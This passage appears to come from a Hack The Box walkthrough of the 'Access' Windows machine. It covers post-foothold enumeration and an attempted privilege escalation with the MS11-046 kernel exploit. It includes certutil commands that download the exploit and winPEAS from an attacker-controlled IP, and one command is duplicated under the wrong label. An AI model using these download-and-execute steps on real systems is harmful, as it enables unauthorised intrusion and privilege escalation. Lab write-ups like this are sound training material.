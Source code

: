 Majority of the times, user flag mainly located at Desktop folder in Windows OS ->

![[HTB-Access/images/26.png]]

`type user.txt`
![[HTB-Access/images/27.png]]


After I submitted user flag, I did not understand my privileges. That's why, I moved `Administrator` user's directory ,but it did not work.

![[HTB-Access/images/28.png]]

Let's enumerate system ->

`systeminfo` ->

The crucial aspect will be OS kernel version & type of Windows
![[HTB-Access/images/29.png]]

**Hacktricks** will help you fully especially for reconnaissance in Windows systems ->

https://hacktricks.boitatech.com.br/windows/windows-local-privilege-escalation

Let me also check `Access Tokens` -> https://hacktricks.boitatech.com.br/windows/windows-local-privilege-escalation/access-tokens


`whoami /all`

![[HTB-Access/images/30.png]]

After my couple of attempts, I discovered an exploit on exploitdb just by searchin my Windows version: **MS11-046**

https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS11-046/CVE-2011-1249.c

![[HTB-Access/images/31.png]]

I could not send exploit to `Temp` folder. Instead I tried & run in my current user's Desktop folder. However, group policies restricted me to run exploit.

`certutil.exe -urlcache -f http://10.10.14.45:1234/MS11-046.exe MS11-046.exe`

![[HTB-Access/images/32.png]]

Let me also send `Winpeas` ->

`certutil.exe -urlcache -f http://10.10.14.45:1234/MS11-046.exe MS11-046.exe`

I discovered the bit version of Windows `x64` then I will upload `Winpeasx64.exe`

`certutil.exe -urlcache -f http://10.10.14.45:1234/winPEASx64.exe winpeas.exe`

It was not possible to run anything on my directory ->
![[HTB-Access/images/33.png]]

Enumerating user accounts can be suitable to understand hierarchy in the host ->
